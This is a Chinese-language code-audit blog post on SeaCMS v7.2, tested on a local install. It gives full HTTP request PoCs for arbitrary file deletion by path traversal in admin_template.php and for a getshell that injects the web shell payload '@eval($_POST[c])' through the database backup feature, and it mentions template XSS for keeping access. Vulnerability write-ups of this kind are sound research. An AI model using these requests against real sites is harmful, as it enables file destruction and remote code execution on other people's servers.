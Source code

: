 ```yaml
---
title: "Seacmsv7.2任意文件删除&Getshell"
date: 2019-01-10T21:17:21+08:00
draft: false
tags: ['getshell']
categories: ['代码审计']
---
```


海洋cms是为解决站长核心需求而设计的视频内容管理系统，适用于各大视频站点，支持自定义模板和解析接口，是各大视频站长的不错选择之一。官方版本已经在2019年1月10日更新版本到v8.1，请尽快更新版本。

<!--more-->

### 安装
![](https://y4er.com/img/uploads/20190509168375.jpg "安装")
版本信息查看
```http
http://127.0.0.1/seacms/data/admin/ver.txt
```
在安装完之后提示我后台地址为`http://127.0.0.1/seacms/shwpap`，可以看出后缀是随机命名的。
在网站目录搜索`重要`跟进代码
![](https://y4er.com/img/uploads/20190509164151.jpg)
可以看到有一个`randomkeys(6)`方法，继续跟进

![](https://y4er.com/img/uploads/20190509168190.jpg)

后台目录是由程序生成的随机6位字符，可以用burp爆破。不过基数过大，不建议。

![](https://y4er.com/img/uploads/20190509169761.jpg)

### 任意文件删除
`seacms/shwpap/admin_template.php`
![](https://y4er.com/img/uploads/20190509167138.jpg)
可以看到只允许操作路径前11位是`$dirTemplate`变量也就是`../templets`的文件，那么我们可以尝试用`../`来操作

![](https://y4er.com/img/uploads/20190509167239.jpg)

通过edit可以读文件，但是因为程序中写死了，只能读取html、html、js、css、txt文件，不能读取php文件，实战中我们可以通过编辑模板插入xss维持权限。

我们尝试用`del`操作，删除`install\install_lock.txt`文件：

![](https://y4er.com/img/uploads/20190509167072.jpg)

```http
GET /seacms/shwpap/admin_template.php?action=del&filedir=../templets/../install/install_lock.txt HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/seacms/shwpap/admin_template.php?action=custom
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=9vlafp1q6b4cro69qk7bhged06
Connection: close


```

### getshell

可上传类型程序写死，上传文件后缀名白名单写死，sql高级助手执行sql语句双waf，那么真正的突破口出现在备份上

![](https://y4er.com/img/uploads/20190509166250.jpg)

备份完之后备份文件是php后缀，虽然避免了备份文件被下载，但是真正getshell的点也出在这了。

为了请求包简洁，我们只勾选一个表`sea_admin`，修改包中请求的`tablename`参数为我们的恶意代码，然后访问备份路径下的`config.php`文件就可以得到我们的shell了。
poc如下：
```http
POST /seacms/shwpap/ebak/phomebak.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 260
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/seacms/shwpap/ebak/ChangeTable.php?mydbname=seacms&keyboard=sea
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=9vlafp1q6b4cro69qk7bhged06
Connection: close

phome=DoEbak&mydbname=seacms&baktype=0&filesize=1024&bakline=1000&autoauf=1&bakstru=1&dbchar=utf8&bakdatatype=1&mypath=seacms_2019&insertf=replace&waitbaktime=0&readme=&tablename%5B%5D=@eval($_POST[c])&chkall=on&Submit=%E5%BC%80%E5%A7%8B%E5%A4%87%E4%BB%BD
```
![](https://y4er.com/img/uploads/20190509165279.jpg)

注意看路径，以及代码的闭合状况。经过测试，`@eval($_POST[c])`是刚好可用的payload。



参考链接

1. https://xz.aliyun.com/t/3805
2. https://www.seacms.net/doc/logs/
3. http://ahdx.down.chinaz.com/201901/seacms_v7.1.zip
